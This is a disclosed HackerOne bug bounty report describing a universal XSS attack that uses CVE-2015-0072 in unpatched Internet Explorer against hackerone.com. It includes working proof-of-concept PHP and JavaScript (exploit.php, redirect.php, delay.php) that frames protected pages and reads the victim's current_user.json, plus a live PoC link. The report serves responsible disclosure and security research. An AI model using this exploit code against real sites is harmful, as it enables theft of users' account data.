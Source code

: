 # HackerOne is still prone to Internet Explorer UXSS

## Report Details
- **Report ID**: 108056
- **URL**: https://hackerone.com/reports/108056
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-01-04T11:34:44.163Z
- **Disclosed**: 2017-04-19T18:16:55.902Z

## Reporter
- **Username**: zombiehelp54
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
Hi, I have managed to leverage CVE 2015-0072, so that the attack will work with any framed resource protected by `X-Frame-Options: DENY` header.
According to #103787, only https://hackerone.com/cdn-cgi/trace was unprotected and now its already fixed. In my PoC I used several X-Frame-Options protected resources of HackerOne and the attack was executed successfully.

Proof Of Concept
--------------------------
1. exploit.php

I added alert() message after executing the payload (read content of current_user.json) because responseText  wasn't readable as steadyState stick at 1 and status at 0

```
<iframe src="redirect.php?<? echo rand(); ?>" style=""></iframe>
<iframe src="https://hackerone.com/assets/news/vulnerabilities_fixed/vulnfixed-652ab9bb4eac2826a0fc8a2fae551115.png?<? echo rand(); ?>" style=""></iframe>
<script>
top[0].eval('_=top[1];xhttp=new XMLHttpRequest();xhttp.open("get","delay.php?<? echo rand(); ?>",false);xhttp.send(); _.location="javascript:http=new XMLHttpRequest(); url=\'https://hackerone.com/current_user.json\';http.open(\'GET\', url, true);http.onreadystatechange = function(){if(http.readyState == 4 && http.status == 200)console.log(http.responseText);}; http.send(); alert(\'No need to close this, already done!\'); "');
</script>
```

2- redirect.php

```
<?php 
header("Location: https://hackerone.com/assets/news/vulnerabilities_fixed/vulnfixed-652ab9bb4eac2826a0fc8a2fae551115.png?".rand()); 
exit(); 
?>
```

3- delay.php

```
<?php 
sleep(5);
echo "zombiehelp54";
exit(); 
?>
```

Live PoC
---------------
I have tested this live PoC on my IE 11.0.9600.17.633 updated February 2015 and also on IE 11 of Windows Server 2012 R2 and it worked as expected (see screenshots).
I also tried many resources of HackerOne and all is X-Frame-Options protected.
Just open any  vulnerable IE (9,10,11 without MS15-018 applied) and turn on console
Go to http://alazzazpp.com/myuxss/exploit.php and your current_user.json will be logged to console.

I couldn't find a mitigation to this, I hope you do.
Thanks;



## Attachments
- redirect.php
- exploit.php
- delay.php
- hackerone_uxss_2.png
- hackerone_uxss_1.png
